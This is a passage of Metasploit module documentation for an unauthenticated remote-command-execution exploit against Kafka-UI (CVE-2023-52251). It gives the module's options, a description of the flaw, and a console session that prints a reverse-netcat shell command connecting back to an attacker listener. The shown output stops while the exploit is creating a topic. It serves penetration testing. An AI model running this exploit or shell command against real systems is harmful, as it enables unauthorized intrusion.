 ```shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    8080             yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)
  VHOST                     no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                      or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  A command injection vulnerability exists in Kafka ui between `v0.4.0` and `v0.7.1` allowing
  an attacker to inject and execute arbitrary shell commands via the `groovy` filter parameter
  at the `topic` section.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-52251
  https://attackerkb.com/topics/ATJ1hTVB8H/cve-2023-52251
  https://github.com/BobTheShoplifter/CVE-2023-52251-POC


View the full module info with the info -d command.
```

## Options
No specific options for this module.

## Scenarios
### Kafka-ui v0.7.0 Unix/Linux Command - cmd/unix/reverse_netcat
```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > set verbose true
verbose => true
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[+] mkfifo /tmp/cpzbj; nc 192.168.201.8 4444 0</tmp/cpzbj | /bin/sh >/tmp/cpzbj 2>&1; rm /tmp/cpzbj
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target is vulnerable. Kafka-ui version: 0.7.0
[*] Executing Unix/Linux Command for cmd/unix/reverse_netcat
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
[*] Creating a new topic...
```